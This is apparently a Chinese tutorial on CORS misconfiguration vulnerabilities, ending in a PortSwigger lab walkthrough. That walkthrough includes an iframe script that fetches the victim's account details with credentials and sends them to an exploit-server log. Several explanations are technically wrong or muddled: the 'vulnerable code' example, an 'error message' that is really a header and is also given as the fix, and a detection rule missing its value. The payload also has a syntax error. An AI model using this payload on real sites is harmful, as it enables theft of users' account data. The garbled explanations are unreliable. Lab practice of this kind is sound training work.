






# 一、cors概述
1. CORS是跨源资源共享的缩写，是由Web浏览器实现的一种安全特性，限制了Web页面向不同于提供Web页面的域名发出请求。这是为了防止恶意网站窃取数据或在用户不知情的情况下执行操作。
2. CORS漏洞是指在Web应用程序中，由于未正确配置CORS策略，攻击者可以通过跨域请求来获取受害者的敏感信息或执行恶意操作。CORS漏洞通常发生在Web应用程序使用AJAX请求时，攻击者可以通过构造恶意请求来绕过浏览器的同源策略，从而获取受害者的敏感信息或执行恶意操作。
3. cors不能防止跨域攻击，如csrf
# 二、cors漏洞的发现与检测
1. 检测一个网站是否存在CORS漏洞，可以使用浏览器的开发者工具来检查网站的响应头。如果网站的响应头中包含Access-Control-Allow-Origin:，则表示该网站允许所有域名的请求，存在CORS漏洞。如果响应头中包含Access-Control-Allow-Origin:特定域名，则表示该网站只允许特定域名的请求，不存在CORS漏洞。
2. 抓包，在数据包中添加Orgin参数，参数值为该网站域名、子域名或者其他网站的域名，观察发送后的返回包中是否有Access-Control-Allow-Origin、Access-Control-Allow-Credentials两个参数，若有，则存在cors漏洞。
# 三、cors漏洞的利用
1. 要利用CORS漏洞，攻击者需要构造恶意请求，并将其发送到受害者的浏览器。攻击者可以使用各种技术来构造恶意请求，例如使用JavaScript或其他编程语言编写恶意代码，或使用代理工具来修改请求头。如果受害者的浏览器未正确配置CORS策略，则会允许来自攻击者域名的请求，并执行恶意代码。
2. 通过与xss相结合，攻击者可以使用CORS漏洞来获取受害者的敏感信息，然后使用XSS漏洞来执行恶意操作。
# 四、代码示例
1. 使用JS编写一个存在cors漏洞的代码示例
```JavaScript
//存在CORS漏洞的JavaScript代码示例
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/data', true);
​xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
	// 处理响应数据
	}
};
xhr.send();
```
2. 在这个示例中，我们使用XMLHttpRequest对象向另一个域名（http://example.com）发出GET请求。如果该域名未正确配置CORS策略，则浏览器将拒绝该请求，并显示以下错误消息：
```HTTP
Access-Control-Allow-Origin: http://localhost
```
3. 为了修复这个漏洞，我们需要在服务器端正确配置CORS策略，允许来自http://localhost的请求。例如，我们可以在服务器端添加以下响应头：
```HTTP
Access-Control-Allow-Origin: http://localhost
```
# 五、BurpSuite靶场示例
1. [BurpSuite靶场cors# 具有可信空源的 CORS 漏洞](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)。打开后如下，给了一个登录凭据wiener:peter

2. 点击访问实验室后再点击右上角的我的账户

3. 使用前面给出的登录凭据登录，如下

4. 抓包，先看数据包，发现没有Origin参数，但是返回数据包中有Access-Control-Allow-Credentials: true，且返回了用户信息

5. 添加Origin参数测试，可以看到返回数据包中多了Access-Control-Allow-Origin参数

6.  利用靶场提供的服务器，编写一个js脚本获取回应，如下
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a3a00a804e2e585817430f1007300d0.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send(null);
    function reqListener() {
       location='https://exploit-0af9006c04abe5c581952f7a0121003b.exploit-server.net/log?key='+this.responseText);
    };
</script>"></iframe>
```

7. 先store保存，然后点击Deliver exploit to victim，然后查看日志，发现日中成功获取到了用户信息
